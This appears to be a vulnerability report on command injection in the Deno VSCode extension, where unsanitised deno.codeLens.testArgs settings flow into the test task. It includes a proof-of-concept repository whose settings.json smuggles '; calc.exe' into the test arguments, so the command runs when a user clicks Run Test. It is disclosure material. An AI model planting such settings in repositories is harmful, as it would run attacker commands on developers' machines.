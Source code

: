 Source code analysis:
1. **File: `client/src/commands.ts`**
   - Function `test` retrieves `deno.codeLens.testArgs` from VSCode configuration and uses it directly in the `deno test` command construction without sanitization.
   ```typescript
   export function test(
       _context: vscode.ExtensionContext,
       extensionContext: DenoExtensionContext,
   ): Callback {
       return async (uriStr: string, name: string, options: TestCommandOptions) => {
           // ...
           const config = vscode.workspace.getConfiguration(EXTENSION_NS, uri);
           const testArgs: string[] = [
               ...(config.get<string[]>("codeLens.testArgs") ?? []), // Unsanitized testArgs from settings
           ];
           // ...
           const args = ["test", ...testArgs, "--filter", nameRegex, filePath];
           // ...
           const definition: tasks.DenoTaskDefinition = {
               type: tasks.TASK_TYPE,
               command: "test",
               args,
               env,
           };
           // ...
       };
   }
   ```
2. **File: `client/src/tasks.ts`**
   - As analyzed in the previous vulnerability, `buildDenoTask` uses these arguments without sanitization.

Security test case:
1. Create a malicious repository with the following structure:
   ```
   malicious-repo/
   ├── .vscode/
   │   └── settings.json
   └── test.ts
   ```
   - `test.ts`:
     ```typescript
     Deno.test("example test", () => {
       console.log("Running test");
     });
     ```
   - `.vscode/settings.json`:
     ```json
     {
         "deno.codeLens.testArgs": [
             "--allow-all",
             "; calc.exe"
         ]
     }
     ```
2. Open the `malicious-repo` in VSCode with the Deno extension enabled.
3. Open `test.ts`.
4. Click on the "▶ Run Test" code lens above the `Deno.test` declaration.
5. Observe that `calc.exe` (or equivalent OS command) is executed, demonstrating command injection via `deno.codeLens.testArgs`.
